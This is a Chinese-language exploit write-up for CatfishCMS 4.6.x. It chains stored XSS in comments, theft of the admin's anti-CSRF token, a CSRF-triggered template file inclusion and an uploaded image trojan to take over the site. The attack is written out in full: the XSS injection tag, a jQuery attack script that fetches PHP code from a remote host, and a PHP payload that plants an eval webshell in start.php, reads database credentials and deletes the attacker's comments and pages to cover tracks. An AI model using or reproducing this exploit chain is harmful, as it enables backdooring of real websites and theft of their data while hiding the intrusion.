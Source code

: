 ```yaml
---
title: CatfishCMS 4.6.15 csrf getshell
id: zhfly2841
---
```


# CatfishCMS 4.6.15 csrf getshell

## 一、漏洞简介

在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification 就显的苍白无力了，因为我们可以先获取
verification 然后在执行csrf 从而来绕过。

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

### 漏洞分析

文件：CatfishCMS-4.6.12\catfish\library\think\Template.php

函数：fetch()

![image](../img/b84802e18d7f15e582775f2e9a384442.png)

![image](../img/1fa4c6d3f24d275c797e44322d3d43ba.png)

![image](../img/e007760c54ce2419e36de3dcd1be769d.png)

![image](../img/409109ec2a45082b4c4ce910383d9d9c.png)

![image](../img/c718b5870292e5b98008221a4068fef9.png)

![image](../img/8cfa924e0f98388cc366dc1cb3eb4648.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入
恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户->注册一个图片马到网站中->评论处插入xss代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加getshell_code.php文件写入恶意代码->包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们csrf创建的页面->邮件通知我们->getshell

CatfishCMS-4.6.12-xss.js

```
/*  
    需要插入的xss代码
    <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/ 

//不用动的

var articles = ‘index.php/admin/Index/articles.html’;//用来获取 verification 绕过检测

var newpage = ‘index.php/admin/Index/newpage.html’;//生成文章地址

var allpage = ‘index.php/admin/Index/allpage.html’;//获取文章链接

//需要改的

var url = ‘[http://0-sec.org](http://0-sec.org)’;//你要日的站的域名

var directory = ‘/cms/CatfishCMS-4.6.12/’; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)

var img_trojan_url = ‘…/…/…/’+‘data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg’;//图片马的地址 修改 + 号后面的即可

var getshell_code = ‘[http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt](http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt)’;//恶意代码远程包含的地址

$(‘body’).append(’<div id=“csrf_verification” style=“display:none;”></div>’);

$(‘body’).append(’<div id=“csrf_allpage” style=“display:none;”></div>’);

$.ajax({

url: url+directory+articles,

dataType: “json”,

success: function(verification_content){

$(’#csrf_verification’).append(verification_content);

var verification = $(’#verification’).html();//用来绕过验证的

// alert(verification);

```
 //csrf生成文章,引起文件包含漏洞
    $.ajax({
        type: "POST",
        url: url+directory+newpage,
        data: {
            'biaoti':'xss_csrf_getshll',
            'template':img_trojan_url,
            'verification':verification,
            'fabushijian':'2017-12-05 11:56:48'
        },
        success: function(){
            //csrf获取shell链接
            $.ajax({
                type: "POST",
                url: url+directory+allpage,
                success: function(allpage_content){
                    $('#csrf_allpage').append(allpage_content);
                    var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                    var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                    var shell_content = '';
                        shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                        shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                        shell_content+= 'fwrite($myfile, $txt);';
                        console.log(shell_content);

                    //执行shell 生成马子
                    $.ajax({
                        type: "POST",
                        url: url+shell_url,
                        dataType: "json",
                        data: {'ddd':shell_content},
                        success: function(data){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        },
                        error: function(){
                            $.ajax({
                                type: "GET",
                                url: url+directory+'getshell_code.php',
                                dataType: "json", 
                                // data: {'zzz':1}
                            });
                        }   
                    });

                } 
            });

        } 
    });

} 
``` `});` 
```

![image](../img/5de857f36da83407a0c183ba3e7a2175.png)

![image](../img/f77a69124aa689b3952350e5c8c2a663.png)

写好以后模拟管理员，进入后台

![image](../img/003aa2ed36a046ca3033539a1388bd51.png)

![image](../img/66afafa829850c76837456dc18ebf186.png)

![image](../img/047b3f00e7c55599e6c33cca45fd82de.png)

![image](../img/4e4b09f17195196e4bc9e396546dd06c.png)

getshell_code

```
<?php  
    $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
    $start = fopen('catfish/start.php', 'w');
    fwrite($start, $start_content);
    if( @$_GET[zzz]){
        $config = require_once("application/database.php");
        //分别对应的是 地址，端口号，连接的数据库，编码
        $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
        $user = $config['username'];
        $psw = $config['password'];
        $pdo = new PDO($dsn,$user,$psw);
        $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
        $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
        $pdo->query($sql);
        $pdo->query($sql_1);
        unlink('getshell_code.php');
    }
?> 
```

![image](../img/bb81b5962a86c712b71b5c315bf21a06.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

```
http://0-sec.org/index.php

POST `ddd = 你要执行的命令` 
```

![image](../img/0a627569e8100e2a49f481cc620cb2a3.png)

![image](../img/01c49cc887a32639f5b8e4faf94bf3c4.png)